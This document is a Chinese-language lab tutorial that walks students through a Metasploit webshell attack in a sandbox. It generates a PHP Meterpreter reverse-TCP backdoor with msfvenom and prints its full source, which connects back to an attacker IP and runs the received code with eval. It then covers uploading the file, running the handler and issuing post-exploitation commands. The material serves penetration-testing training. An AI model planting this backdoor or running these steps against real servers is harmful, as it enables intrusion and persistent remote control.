




# Metasploit 创建 WebShell

## 一、实验简介

### 1.1 实验介绍

众所周知，在互联网高速发展的时代，网站服务器非常容易受到黑客的攻击。在众多编程语言中，PHP 是一门能够快速上手的语言。而对于 "PHP 是世界上最好的语言" 这一点一直争论不休。不管 PHP 是不是最好的语言，但毫无疑问的是，由于使用 PHP 作为建站语言的网站众多，PHP 编写木马成为了广大黑客的喜爱。

本实验主要介绍如何使用 Msfvenom 生成 PHP 木马后门，并对 PHP 木马源码部分的关键代码进行讲解。并把木马上传到所要攻击的目标靶机后，通过 Metasploit 对目标靶机进行攻击，建立一个 WebShell 拿到会话通道。

一般情况下，拿到对目标主机的控制权后，再根据得到的当前用户权限大小，进行提权活动。本实验将对生成的 PHP 木马源码进行重点介绍。对于木马中的每一行 PHP 代码将标有注释，帮助同学们更好地理解木马运作过程。

- *注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 主要知识点

本实验是一门纯动手的实验课，在动手实验的过程中，将配合一些必要的理论知识，帮助同学们更好地掌握 Metasploit 创建 WebShell 这门课程。本节课细分的主要知识点如下列表：

- Linux 系统基本操作知识
- Metasploit 框架基本操作知识
- PHP 基本语法知识
- 渗透成功后验证方式

### 1.3 实验环境

本实验的实验环境，操作系统为实验楼下的 Kali Linux 虚拟机，目标靶机为实验楼 Ubuntu 。通过 Kali 的 Msfvenom 工具生成 PHP 木马，并把木马上传到目标靶机，感染目标靶机，从而创建 WebShell。 

理论上只要在 Kali Linux 中生成 PHP 木马后，上传到能够运行 PHP 代码的目标网站目录下，即可感染相应的目标主机，从而获得相应的控制权限，为后续提权操作做准备，实现持续访问。

所以在本实验中，可以自由选择两台目标靶机中的任意一台。这两台主机均能够提供 PHP 代码运行环境，两台目标靶机分别为宿主机 Ubuntu 和 Metapsloitable2 虚拟机。


## 二、启动实验环境

### 2.1 启动实验环境

在接下来的实验演示中，我们选择宿主机 Ubuntu 14.04 作为目标靶机。首先在实验楼的环境中，进入 Kali Linux 虚拟主机中。

```bash
```
docker run -ti --network host 6f113 bash
```
```


## 三、工具介绍

### 3.1 创建流程介绍

一般情况下，Metasploit 创建 WebShell 至少需要经过这四个阶段，即先生成木马，接着再上传到目标靶机，进入使用 Msfconsole 进行攻击，流程图如图所示：


Metasploit 创建 WebShell 的流程为，先使用 Msfvemon 生成一个木马文件，通过将木马文件上传至目标靶机，建立起攻击机和目标靶机两者之间的连接。而通常在这个过程中，我们需要掌握的知识点，主要分为这两点：

- 如何生成木马文件？
- 上传木马文件到目标靶机后，如何获取 WebShell？

在这个 Kali 后门实战这个训练营中，上传木马需要目标靶机的管理权限。所以我们的实验都是建立在已经攻陷了目标主机，获取了目标靶机管理权限的情况下。一般在渗透攻击实战中，在攻陷对方主机后，为了后续步骤的进行，我们需要上传一个木马，从而达到再次访问该主机的目的。

该后门实战阶段，也可以叫做后渗透阶段。如果对于如何攻陷目标主机这一课程感兴趣的同学，也可以学习一下实验楼的另一门训练营，该课程专门介绍如何利用漏洞攻陷目标靶机，也是一门动手实践的课程，课程地址为：

> Kali 服务器攻击实战：https://www.shiyanlou.com/courses/698

### 3.2 工具介绍

生成木马的工具在安全信息攻防中数不胜数，而在这个 Metasploit 创建 WebShell 的实验中，我们生成木马的工具为 `Msfvenom`，下面是一段关于 Msfvenom 的简短介绍：

> Msfvenom 是 Msfpayload 与 Msfencode 的结合体。Msfvenom 同时具备了 Msfpayload 和 Msfencode 的优点。其优点特征是单一，命令行使用，效率高。

在许多的安全攻防过程中，不论是黑客还是信息安全人士，都非常喜欢使用`Metasploit`，它是一款开源的工具：


> Metasploit 是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web 应用程序扫描，社会工程。团队合作，在 Metasploit 和综合报告提出了他们的发现。这款工具，附带数百个已知的漏洞，并保持频繁更新。被整个安全社区冠以"可以黑掉整个宇宙"外号的渗透框架。


## 四、过程实现

### 4.1 生成 PHP 木马

一般情况下，要根据目标靶机的情况来制定相应的木马程序。通常木马程序受目标靶机所运行的环境影响，在本实验中，木马的运行环境只要是能运行 PHP 代码的环境即可。上一节介绍了基本的工具背景之后，我们在实验楼的 Kali Linux 环境下，使用如下命令创建一个 PHP 木马文件，文件名为 `hello.php`：

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.101 -f raw > hello.php
```
这句话的意思是输入生成攻击者主机的 IP 地址为 `192.168.122.101` ，其中命令参数含义如下列表：

| 参数名称 | 所代表含义                                                   |
| -------- | ------------------------------------------------------------ |
| `-p`     | 指定需要使用的 payload (攻击荷载)。                          |
| `-l`     | 列出指定模块的所有可用资源。                                 |
| `-f`     | 指定输出格式 (使用 --help-formats 来获取 msf 支持的输出格式列表) |
| `-v`     | 指定一个自定义的变量，以确定输出格式。                       |

成功之后如图所示：


之后可以使用 `ls` 命令，查看当前目录下的文件。此时 `hello.php` 木马文件已经生成，可以通过 `cat hello.php` 查看该文件的内容：



### 4.2 分析 PHP 木马代码

对于使用 msfvenom 生成的 PHP 木马，其源代码如下所示：

```
/*<?php /**/ error_reporting(0); 

// 攻击者的目标 ip 地址
$ip = '192.168.122.101';

// 攻击者的端口为 4444
$port = 4444;

if (($f = 'stream_socket_client') && is_callable($f)) { 
```

// 连接 ip 地址和端口
$s = $f("tcp://{$ip}:{$port}");
$s_type = 'stream'; 
```
} elseif (($f = 'fsockopen') && is_callable($f)) {

```
// 由 ip 地址和端口两个参数连接
$s = $f($ip, $port); 

// 类型 type 为 stream
$s_type = 'stream';
```
} elseif (($f = 'socket_create') && is_callable($f)) {

```
$s = $f(AF_INET, SOCK_STREAM, SOL_TCP);

// 由协议，ip 地址，端口三者确立连接
$res = @socket_connect($s, $ip, $port);

// 判断是否为空，为空则终止脚本函数
if (!$res) { 
die(); 
} 

// 连接的数据类型
$s_type = 'socket'; 
```
} else { 
```
die('no socket funcs'); 
```
} 

// 如果没有 socket 连接，则报错
if (!$s) {
```
die('no socket'); 
```
} 

switch ($s_type) { 
```
case 'stream': $len = fread($s, 4); break;
case 'socket': $len = socket_read($s, 4); break;
```
} 

// 根据长度判断是否为空，为空则终止脚本函数
if (!$len) {
```
die(); 
```
} 

$a = unpack("Nlen", $len);
$len = $a['len']; 
$b = ''; 

while (strlen($b) < $len) {

```
// 根据类型 stream，或者 socket 调用相应读取数据函数
switch ($s_type) { 
case 'stream': $b .= fread($s, $len-strlen($b)); break;
case 'socket': $b .= socket_read($s, $len-strlen($b)); break; 
} 
```
} 

// 保存 $s 值为全局变量
$GLOBALS['msgsock'] = $s;

// 保存 $s_type 类型值为全局变量
$GLOBALS['msgsock_type'] = $s_type;

eval($b);

die();
```

### 4.3 上传到目标靶机

将生成的 PHP 木马文件件上传到实验楼宿主机，也就是实验楼目标靶机，IP 地址为 `192.168.122.1`。一般情况下，查看本机的 ip 地址命令为 `ifconfig`。下面我们将文件进行上传，输入如下命令：

```
# 实验楼环境中，直接上传到目标主机的网站目录下，会显示没有权限，所以先上传到目标主机
# 将木马程序上传到目标主机的 tmp 文件夹下
scp hello.php shiyanlou@192.168.122.1:/tmp
```
其中宿主机的账号名称是 `shiyanlou`，密码也是 `shiyanlou`:


在实验楼本机（也就是宿主机）安装 apache2 并开启 `apache` 服务，另外还要安装 php5，用以测试 PHP 木马：

```bash
# 更新软件源
sudo apt-get update
# 安装 apache2
sudo apt-get install -y apache2
# 开启 apache 服务
sudo service apache2 start
```

输入如下命令，将木马文件，复制到网站的根目录下：

```
# 将 PHP 木马程序拷贝到网站目录下
sudo cp /tmp/hello.php /var/www/html/
```


### 4.4 使用 Metasploit 创建 WebShell

在上诉步骤成功之后，接着在 Kali 中打开 MSF 终端：

```
# 在 Kali 终端中打开 MSF 终端
msfconsole
```



分别输入如下命令：

```
# 使用相应模块
use multi/handler

set payload php/meterpreter/reverse_tcp

# 查看所需要填写的参数
show options

# 设置攻击者的主机参数
set LHOST 192.168.122.101
```



在输入攻击命令后，进入待命状态：

```
# 对目标主机进行攻击
exploit
```

此时只要在有木马的网站，访问该页面即可，在火狐浏览器中，输入如下地址：

```
127.0.0.1/hello.php
```



### 4.5 查看目标靶机的信息

输入命令，查看靶机的信息：

```
# 查看系统信息
sysinfo

# 查看当前 id 
getuid

# 查看当前路径
pwd

# 查看当前目录下文件
ls
```


## 五、总结思考

### 5.1 总结思考

本实验是一门纯动手的实验，在实验的过程中，我们使用了基本的 Linux 操作命令，以及对 PHP 木马源码几乎每一行都进行注释。并通过 Metasploit 终端建立了 WebShell。本实验所涉及到的知识点为：

- Linux 系统基本操作知识
- Metasploit 框架基本操作知识
- PHP 基本语法知识
- 渗透成功后验证方式

这节实验中，我们再次对流程进行一次回顾：生成 PHP 木马文件 ==> 上传到目标靶机 ==> Metasploit 进行攻击 ==> 创建 WebShell 成功。

希望同学们能够掌握建立 WebShell 的方法和流程。其中对 PHP 木马代码进行一个了解即可，知道 PHP 木马建立连接的主要参数更佳。在学习了本门实验后，推荐大家阅读一些关于 Kali 的参考资料：

> http://tools.kali.org/

## 六、课后作业

### 6.1 课后作业

在学习了本课程之后，为了更好地掌握本节实验内容，需要对知识点不断地练习和总结，完成相应的课后作业。并对课后作业中的问题进行思考，巩固自己所学到的知识：

- PHP 木马重点部位是哪里？
- 在获取 WebShell 后，如何提权？
- 渗透成功后，如何清理痕迹？

对于文档中不懂的问题，在自己思考之后，如果还是无法解决，可以在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。